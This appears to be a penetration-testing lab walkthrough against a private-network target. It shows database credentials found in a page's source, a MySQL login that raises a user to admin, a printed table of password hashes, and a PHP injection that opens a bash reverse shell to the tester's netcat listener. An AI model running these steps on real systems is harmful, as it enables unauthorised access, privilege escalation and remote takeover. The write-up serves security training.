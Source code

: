 {% hint style="warning" %}
**Found credentials in webpage's source code**

view-source:[http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/panel.php](http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/panel.php)

```
<!-- = '127.0.0.1'; = 'dbuser'; = 'xXxyYyzZz789789)))'; = 'footracking'; = mysqli_connect(, , , );--><br />
```

```
dbuser
xXxyYyzZz789789)))
footracking
```

Actions:

* Connect to new mysql database
* Elevate privileges for `tracking1` user
{% endhint %}

{% tabs %}
{% tab title="mysql connect" %}
```bash
mysql --host=172.16.64.92 --user=dbuser --password='xXxyYyzZz789789)))' --port=63306
```
{% endtab %}

{% tab title="Update user" %}
```
> use footracking
> update users set adm='yes' where id=3;
> select * from users;
+----+-----------+----------------------------------+-----+
| id | username  | password                         | adm |
+----+-----------+----------------------------------+-----+
|  1 | fcadmin1  | c5d71f305bb017a66c5fa7fd66535b84 | yes |
|  2 | fcadmin2  | 14d69ee186f8d9bbeddd4da31559ce0f | yes |
|  3 | tracking1 | 827ccb0eea8a706c4c34a16891f84e7b | yes |
|  4 | tracking2 | e10adc3949ba59abbe56e057f20f883e | no  |
+----+-----------+----------------------------------+-----+
4 rows in set (0.142 sec)
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
We now get into a Admin Console panel where we can inject PHP sentences

* We initiate `nc -lvpn 1234` locally
* We open a reverse shell against our machine while we listen locally on port 1234

```
exec("/bin/bash -c 'bash -i >& /dev/tcp/172.16.64.10/1234 0>&1'");
```
{% endhint %}
